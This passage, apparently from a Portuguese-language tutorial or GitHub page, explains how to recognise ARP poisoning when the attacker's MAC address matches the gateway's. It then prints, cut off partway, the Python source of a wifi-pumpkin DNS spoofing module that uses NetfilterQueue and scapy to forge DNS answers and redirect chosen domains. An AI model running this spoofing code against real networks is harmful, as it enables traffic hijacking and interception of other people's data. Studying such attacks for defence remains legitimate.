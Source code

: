 Perceba que o endereço físico do **atacante** está igual ao endereço físico do **gateway**, isso significa que alguém está envenenando a tabela arp para que os dados sejam desviados. dessa forma, o atacante é capaz de ler e modificar em tempo real absolutamente todos os pacotes.

código do Dnspoof usando module NetfilterQueue:

``` python
#!/usr/bin/env python
import argparse
import logging
logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
from scapy.all import *
from netfilterqueue import NetfilterQueue

"""
Description:
    This program is a module for wifi-pumpkin.py file which includes new implementation
    for Dns spoof Attack with NetfilterQueue and iptables.

Copyright:
    Copyright (C) 2015-2016 Marcos Nesster P0cl4bs Team
    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>
"""

class DnsSpoofNetFilter(object):
    def __init__(self):
        """ implementation Dnsspoof with Netfilterqueue modules"""
        description = "Module DNS spoofing v0.1"
        usage = "Usage: use --help for futher information"
        parser = argparse.ArgumentParser(description = description, usage = usage)
        parser.add_argument('-d','--domains', dest = 'domains', help = 'Specify the domains', required = True)
        parser.add_argument('-r', '--redirect', dest = 'redirect',  help = 'Redirect host ', required = True)
        self.args = parser.parse_args()

    def callback(self,packet):
        payload = packet.get_payload()
        pkt = IP(payload)
        if not pkt.haslayer(DNSQR):
            packet.accept()
        else:
            if pkt[DNS].qd.qname[:len(str(pkt[DNS].qd.qname))-1] in self.domain:
                self.logDNS.info('{} ->({}) has searched for: {}'.format(pkt[IP].src,
                self.redirect,pkt[DNS].qd.qname[:len(str(pkt[DNS].qd.qname))-1]))
                spoofed_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
                UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
                DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,\
                an=DNSRR(rrname=pkt[DNS].qd.qname, ttl=10, rdata=self.redirect))
                packet.set_payload(str(spoofed_pkt))
                send(spoofed_pkt,verbose=False)
                packet.accept()
            elif len(self.domain) == 1 and self.domain[0] == '':
                self.logDNS.info('{} ->({}) has searched for: {}'.format(pkt[IP].src,
```